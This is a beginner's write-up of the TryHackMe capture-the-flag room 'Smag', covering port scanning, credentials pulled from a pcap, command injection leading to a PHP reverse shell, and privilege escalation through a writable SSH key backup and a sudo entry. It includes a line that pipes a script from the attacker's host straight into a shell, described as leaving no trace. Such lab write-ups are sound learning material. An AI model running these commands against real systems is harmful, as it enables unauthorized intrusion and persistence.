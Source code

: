 ```yaml
---
title: Smag WriteUp
description: This is my solution for the TryHackMe room 'Smag'
date: 2020-07-31 11:58:00 +0000
categories: [CTF, TryHackMe]
tags: [writeup, beginner, nmap, enumeration, privesc, web, rce]
image: assets/img/tryhackme.png
---
```


> This is my first write up ever, which was made back in 2020. It's not the best quality but I like it.
{: .prompt-info }

# SmagWriteUp
So I'll show you my way to hack this very nice, but no so easy tryhackme room :
Smag
# Recon
First, we need to scan with nmap, as always :
![Capture d’écran de 2020-07-31 18-50-30](https://user-images.githubusercontent.com/50116433/89050911-b889b400-d353-11ea-8889-df85a7b67fdb.png)
We see http and ssh. The apache webserver isn't vulnerable and ssh isn't either.
Let's run an nmap scan on all ports in the background, just in case : 
```nmap -p- 10.10.43.30```
# Get a shell
Now I wanna look at the webserver, but it's under construction so nothing appears to be here...
I added smag.thm to /etc/hosts, but nothing changed.

One thing you should do everytime you're on a webpage is checking the file extension. Here the index file is index.php
The webserver is running php. 
Let's run gobuster, since this is the only thing we can do now :
![Capture d’écran de 2020-07-31 18-58-27](https://user-images.githubusercontent.com/50116433/89051347-68f7b800-d354-11ea-887f-5454af53f124.png)

You noticed that I used the .php extension, and the txt too ( I always, it's just in case )
After finding /mail we can see a page saying the server is using mail2web software to displays mails on the page, but I didn't find anything with it in searchsploit :(<br>
There is a .pcap file, after opening it in wireshark we can see an http request with a username and a password. 
![censored_stuff](https://user-images.githubusercontent.com/50116433/89052543-26cf7600-d356-11ea-8f2c-34e3d0ba5225.jpg)
Nice ! I tried to use these in ssh but it didn't work.
We also notice that the http request is going to development.smag.htb, and after adding it to my /etc/hosts file,
The domain development.swag.thm is redirecting to a login page where we can login with the credentials we found earlier.
There is an admin command pannel :
![Capture d’écran de 2020-07-31 19-08-13](https://user-images.githubusercontent.com/50116433/89053375-65b1fb80-d357-11ea-80c1-3d531d7418f1.png)<br><br>
I try to ping my machine, just to see if it works, I use tcpdump to listen for incoming ping request : 
```sudo tcpdump -i tun0 icmp and icmp[icmptype]=icmp-echo```
Then I run the command on the webpage and tadaaa:
![Capture d’écran de 2020-07-31 19-08-33](https://user-images.githubusercontent.com/50116433/89053686-e40e9d80-d357-11ea-92fe-cfa5eb7c0dd5.png)
It's working ! Unfortunately, it's not displaying any output, even in the source code, so we cannot read flags.
I tried to wget a php file from my machine, and the file is downloaded correctly by the machine but somehow I couldn't have access to it with my browser... 
At this point I tried many reverse shells, but I was sending commands with burp, and they didn't worked because the url encoding wasn't correctly executed.
I tried again few hours later but I was sending my reverse shells command from the website and after few minutes I remebered that the webserver was running php, so php should be installed on the machine. And it was : my reverse php shell worked !
![Capture d’écran de 2020-07-31 19-11-31](https://user-images.githubusercontent.com/50116433/89054531-42884b80-d359-11ea-8237-04c09f3f4b4c.png)
# User Flag
So there is a user jake, but we cannot acces the flag in his home directory and we can't either read the .ssh folder.
Next step is to run our favourite enumeration tool : [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).
I setup an http server on my computer with updog ( a very cool and easy to use http server ), then I run linpeas with the following command : 
```curl 10.9.10.225:9090/linpeas.sh |/bin/sh```
I do like this because here, no file is getting downloaded and it's invisible for the user.
After looking at the output ( it took some time ), I noticed a crontab executed by root :
![Capture d’écran de 2020-07-31 19-16-55](https://user-images.githubusercontent.com/50116433/89055602-f50cde00-d35a-11ea-8bf0-e53c1a050dd2.png)
The root user is copying this file to jake's authorized_keys
We have write access to the /opt/.backups/jake_id_rsa.pub.backup file, so we can put our own .pub file here, and then connect to Jake with ssh !
Let's go to /dev/shm ( because we always have write access into it ) and use ssh-keygen.
![Capture d’écran de 2020-07-31 19-20-22](https://user-images.githubusercontent.com/50116433/89055953-8bd99a80-d35b-11ea-94c3-a05746f862cc.png)
After generating a public ssh key let's copy it to the jake .pub backup file :
```cp /dev/shm/id_rsa.pub /opt/.backups/jake_id_rsa.pub.backups```
Copy the id_rsa private key to our machine, wait a bit, then connect with ssh to jake's account :
![Capture d’écran de 2020-07-31 19-28-08](https://user-images.githubusercontent.com/50116433/89056343-289c3800-d35c-11ea-8310-bbb15cd4f7af.png)
# Root Flag
Before running linpeas always check sudo -l permissions :
![Capture d’écran de 2020-07-31 19-28-32](https://user-images.githubusercontent.com/50116433/89056720-c263e500-d35c-11ea-84fb-28f79a977a73.png)<br>
There is a privesc with this on gtfobins ( even three ), the first one won't work because the machine isn't connected to internet, the second one may work but I'll try the third one because it fits on one line.
![Capture d’écran de 2020-07-31 19-29-54](https://user-images.githubusercontent.com/50116433/89056972-2edee400-d35d-11ea-9660-564377550066.png)
And we are root ! Thanks you [JakeDoesSec](https://tryhackme.com/p/JakeDoesSec) for this very nice room !<br>
[TryHackMe](https://tryhackme.com)
